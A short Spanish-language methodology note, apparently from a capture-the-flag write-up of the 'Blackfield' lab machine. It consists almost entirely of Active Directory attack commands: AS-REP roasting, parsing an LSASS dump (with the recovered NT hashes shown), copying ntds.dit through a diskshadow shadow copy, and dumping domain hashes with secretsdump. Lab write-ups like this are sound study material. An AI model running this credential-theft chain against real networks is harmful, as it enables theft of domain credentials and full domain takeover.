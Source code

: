 # Metodología

## ASPRepRoast Attack
```null
GetNPUsers.py blackfield.local/ -no-pass -usersfile users.txt -dc-ip 10.10.10.192
```

## Decrypt LSASS
```null
pypykatz lsa minidump lsass.DMP

INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
[...]
	== MSV ==
		Username: svc_backup
		Domain: BLACKFIELD
		LM: NA
		NT: 9658d1d1dcd9250115e2205d9f48400d
		SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
[...]
luid 153705
	== MSV ==
		Username: Administrator
		Domain: BLACKFIELD
		LM: NA
		NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
		SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
```

## Dumpear NTDS

### Backup del System
```null
reg save HKLM\SYSTEM system.bak
```

### Backup del NTDS

#### Creación de unidad lógica temporal

**Fichero.txt**
```null
set context persistent nowriters
add volume c: alias pwn
create
expose %pwn% z:
```

#### Procesación con DiskShadow
```null
diskshadow /s fichero.txt
```

#### Copia de RoboCopy
```null
robocopy /b z:\windows\ntds . ntds.bak
```

#### Dumpeo hashes NT,LM
```null
impacket-secretsdump -ntds ntds.dit -system system local
```

